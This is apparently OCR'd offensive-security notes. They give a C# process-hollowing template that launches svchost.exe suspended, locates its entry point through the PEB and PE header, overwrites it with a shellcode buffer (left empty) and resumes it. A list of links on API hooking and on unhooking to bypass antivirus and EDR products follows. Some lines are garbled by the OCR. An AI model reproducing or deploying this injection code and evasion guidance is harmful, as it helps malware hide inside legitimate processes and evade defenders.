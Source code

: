 ```cs
[DllImport("kernel32.dll", SetLastError = true)] public static extern bool ReadProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, byte[] lpBuffer, Int32 nSize, out IntPtr lpNumberOfBytesRead);

[DllImport("kernel32.dll", SetLastError = true)] public static extern bool WriteProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, byte[] lpBuffer, Int32 nSize, out IntPtr lpNumberOfBytesWritten);

[DllImport("kernel32.dll", SetLastError = true)] static extern uint ResumeThread(IntPtr hThread);


static void Main(string[] args) {
        STARTUPINFO si = new STARTUPINFO();
        PROCESS_INFORMATION pi = new PROCESS_INFORMATION();
        bool res = CreateProcess(null, "C:\\Windows\\System32\\svchost.exe", IntPtr.Zero, IntPtr.Zero, false, 0x4, IntPtr.Zero, null, ref si, out pi);
        PROCESS_BASIC_INFORMATION bi = new PROCESS_BASIC_INFORMATION();
        uint tmp = 0;
        IntPtr hProcess = pi.hProcess;
        ZwQueryInformationProcess(hProcess, 0, ref bi, (uint)(IntPtr.Size * 6), ref tmp);
        IntPtr ptrToImageBase = (IntPtr)((Int64) bi.PebBaseAddress + 0x10);
        byte[] addrBuf = new byte[IntPtr.Size];
        IntPtr nRead = IntPtr.Zero;
        ReadProcessMemory(hProcess, ptrToImageBase, addrBuf, addrBuf.Length, out nRead);
        IntPtr svchostBase = (IntPtr)(BitConverter.ToInt64(addrBuf, 0));

//Parse PE 
Headerbyte[] data = new byte[0x200];
ReadProcessMemory(hProcess, svchostBase, data, data.Length, out nRead);uint e_lfanew_offset = BitConverter.ToUInt32(data, 0x3c);uint opthdr = e_lfanew_offset + 0x28;uint entrypoint_rva = BitConverter.ToUInt32(data, (int)opthdr);IntPtr addressOfEntryPoint = (IntPtr)(entrypoint_rva + (UInt64)svchostBase);
// Overwrite Entry 
Pointbyte[] buf = new byte[] { }; 
// Put some shellcode here
WriteProcessMemory(hProcess, addressOfEntryPoint, buf, buf.Length, out nRead);
ResumeThread(pi.hThread);}}}
```


## API Hooking and UnHooking
	
   - Inline Patching
     - https://www.ired.team/offensive-security/code-injection-process-injection/how-to-hook-windows-api-using-c++
- IAT Hooking
    - https://www.ired.team/offensive-security/code-injection-process-injection/import-adress-table-iat-hooking

	- [Csharp unhooker](https://github.com/crypt0ace/CS-Unhook) 
	- - **https://www.malwaretech.com/2015/01/inline-hooking-for-programmers-part-1.html 
	-  https://www.malwaretech.com/2015/01/inline-hooking-for-programmers-part-2.html 
	- **https://www.ired.team/offensive-security/defense-evasion/how-to-unhook-a-dll-using-c++ 
	-  https://www.ired.team/offensive-security/code-injection-process-injection/api-monitoring-and-hooking-for-offensive-tooling 
	- **https://www.ired.team/offensive-security/defense-evasion/bypassing-cylance-and-other-avs-edrs-by-unhooking-windows-apis
	- *https://github.com/mgeeky/ShellcodeFluctuation
	- *https://www.ired.team/offensive-security/code-injection-process-injection/how-to-hook-windows-api-using-c++
	- *https://github.com/CCob/MinHook.NET
	- *https://github.com/CCob/SharpBlock
	- *https://github.com/ars3n11/MineSweeper
	- *https://gist.github.com/NaxAlpha/144d1dd96c7d0ad29fe149e4063a8f25
	-  https://www.ired.team/offensive-security/defense-evasion/bypassing-cylance-and-other-avs-edrs-by-unhooking-windows-apis